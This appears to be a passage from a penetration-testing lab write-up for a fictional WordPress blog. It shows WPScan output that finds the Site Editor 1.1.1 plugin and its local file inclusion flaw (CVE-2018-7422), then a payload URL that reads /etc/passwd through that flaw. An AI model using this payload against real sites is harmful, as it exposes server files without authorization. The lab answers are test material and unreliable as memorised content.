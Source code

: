 ### Question 6:
![](./attachments/Pasted%20image%2020220805130137.png)

```
(...)

[+] site-editor
 | Location: http://blog.inlanefreight.local/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/4432ecea-2b01-4d5c-9557-352042a57e44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - https://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
 |
 | Version: 1.1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blog.inlanefreight.local/wp-content/plugins/site-editor/readme.txt
```

**Answer:** `1.1.1`

---
### Question 7:
![](./attachments/Pasted%20image%2020220806122021.png)

[Local File Inclusion (LFI) vulnerability in WordPress Site Editor Plugin](https://seclists.org/fulldisclosure/2018/Mar/40p)

Payload: `http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`
